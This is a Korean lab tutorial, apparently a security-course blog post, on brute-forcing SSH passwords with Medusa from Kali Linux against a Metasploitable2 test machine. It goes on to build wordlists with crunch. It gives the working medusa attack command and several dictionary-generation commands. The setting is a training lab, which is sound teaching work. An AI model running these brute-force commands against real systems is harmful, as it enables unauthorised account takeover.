










## Kali linux에서 Medusa를 활용해서 Brute Force 공격 해보기
#### Metasploitable2 설정
```
$ metasploitable2@msfadmin : sudo adduser iu
# 비밀번호는 goodluck
```

#### Kali 설정
* * *
medusa 설치 확인

```bash
$ kali@kali : sudo medusa --help
```

{: .center} 

#### Dictionary 수정
```bash
$ kali@kali : cd /usr/share/john
$ kali@kali : vi password.lst
```
* * *
#### Medusa 사용

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u iu password.lst -M ssh
```

{: .center}

---

* * *
#### 딕셔너리 만들기 실습
* * *
```bash
$ kali@kali : cd /usr/share/crunch
# 메뉴얼 확인
$ kali@kali : sudo man crunch
```

##### 숫자 4자리로 구성된 딕셔너리를 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -o pw1.txt
$ kali@kali : less pw1.txt
```
{: .center} 

\* 주의사항) 너무 큰 파일을 생성하면 에러 발생 우려 ex) 500MB 이상

##### 소문자 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : less charset.lst
$ kali@kali : sudo crunch 4 4 -f charset.lst lalpha -o pw2.txt
$ kali@kali : less pw2.txt
```
{: .center}

{: .center}  

{: .center}

##### 특정 문자가 들어가는 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -t 'sk@@' -o pw3.txt
$ kali@kali : less pw3.txt
```

{: .center}

{: .center}

##### skinfosec 뒤에 숫자 세자리, 특수문자 1자리로 된 딕셔너리
* * *
\* ' ' 를 사용하고 @를 넣으면 와일드 문자로 사용되지만,

\* ' ' 를 사용하지 않는 경우 아래와 같이 문자가 지정 됨.
- @ : lower case character
- , : upper case character
- % : numbers
- ^ : symbols

```bash
$ kali@kali : sudo crunch 13 13 -t skinfosec%%%^ -o pw4.txt
$ kali@kali : less pw4.txt
```

{: .center}

{: .center}

